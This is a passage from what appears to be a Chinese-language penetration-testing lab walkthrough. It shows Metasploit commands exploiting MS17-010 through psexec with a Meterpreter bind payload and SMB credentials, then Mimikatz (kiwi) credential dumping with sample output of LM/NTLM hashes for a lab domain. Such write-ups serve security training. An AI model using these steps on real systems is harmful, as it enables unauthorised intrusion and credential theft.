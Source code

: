 <img src=".\图片\Snipaste_2023-05-21_13-40-29.png" alt="Snipaste_2023-05-21_13-40-29" style="zoom:80%;" />

2、 ms17_010_psexec 登录

```
use windows/smb/ms17_010_psexec
set payload windows/meterpreter/bind_tcp
set smbuser win7
set smbpass admin555
run
```

## win7主机信息收集

1、密码抓取

```
meterpreter > load kiwi
```

```
meterpreter > kiwi_cmd sekurlsa::logonPasswords

Authentication Id : 0 ; 1056343 (00000000:00101e57)
Session           : Interactive from 1
User Name         : test
Domain            : NASA
Logon Server      : AD01
Logon Time        : 2022/1/11 16:11:04
SID               : S-1-5-21-320502414-1314547354-1033589243-1134
        msv :
         [00000003] Primary
         * Username : test
         * Domain   : NASA
         * LM       : a071457d1ede2871a365438a9412e9f4
         * NTLM     : 59e3c9f97af3f257b02409bbf3b2da11
```